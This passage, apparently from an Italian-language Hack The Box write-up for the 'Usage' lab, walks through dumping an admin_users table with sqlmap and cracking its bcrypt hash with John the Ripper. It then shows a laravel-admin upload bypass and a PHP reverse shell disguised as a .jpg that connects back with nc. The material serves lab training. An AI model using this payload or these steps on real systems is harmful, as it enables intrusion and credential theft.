     - Specifica il nome del database da esaminare. In questo caso, `usage_blog` è il nome del database dal quale `sqlmap`cercherà di estrarre informazioni.
- **`--tables`**
    
    - Indica a `sqlmap` di elencare tutte le tabelle nel database specificato (`usage_blog`). Questo è un passo preparatorio per accedere ai dati all'interno di queste tabelle.
- **`-T admin_users`**
    
    - Specifica il nome della tabella da cui si desidera estrarre i dati. In questo caso, `admin_users` è la tabella di interesse.
- **`-threads 10`**
    
    - Imposta il numero di thread per le operazioni di attacco. L'uso di thread multipli può velocizzare il processo di test. In questo caso, `sqlmap` utilizzerà 10 thread.
- **`--dump`**
    
    - Questo parametro indica a `sqlmap` di estrarre i dati dalla tabella specificata (`admin_users`). In pratica, `sqlmap`tenterà di recuperare tutte le righe di dati presenti in quella tabella.

Utilizziamo [John The Ripple](Note/Tool/John%20The%20Ripple.md) per forzare l'hash

```bash
┌──(kali㉿kali)-[~/htb/usage]
└─$ john hash.txt -w=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 6 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
whatever1        (?)
1g 0:00:00:14 DONE (2024-07-18 13:17) 0.06711g/s 108.7p/s 108.7c/s 108.7C/s maggie1..serena
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Bene ora che abbiamo una password proviamo a loggarci sulla pagina `admin.usage.htb`

![](Hackthebox-OSCP-Prepartion/zzz_rev/attachments/usage3.png)

# GAINING AN INITIAL FOOTHOLD

Ispezionando le vari pagine ci troviamo in `http://admin.usage.htb/admin/auth/setting`
dove abbiamo la possibilità di caricare un immagine profilo per l'account. Potrebbe essere un buon punto per caricare un nostro file malevolo. 

Analizzando le informazione della dashboard abbiamo una versione di laravel 10.18.0 e cercando in internet troviamo riferimento a [questa ACE](https://security.snyk.io/vuln/SNYK-PHP-ENCORELARAVELADMIN-3333096) (Arbitrary Code Execution) dove possiamo bypassare i filtri di controllo del server caricando una shellphp ma con estensione .jpg e modificando la richiesta con burp per ottenere l'esecuzione della shell.

per prima cosa ci prepariamo il nostro file `.jpg` che non è altro che una shell php salvata con estensione .jpg

```bash
┌──(kali㉿kali)-[~/htb/usage]
└─$ cat revers.jpg
<?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.49 443 >/tmp/f"); ?>
```
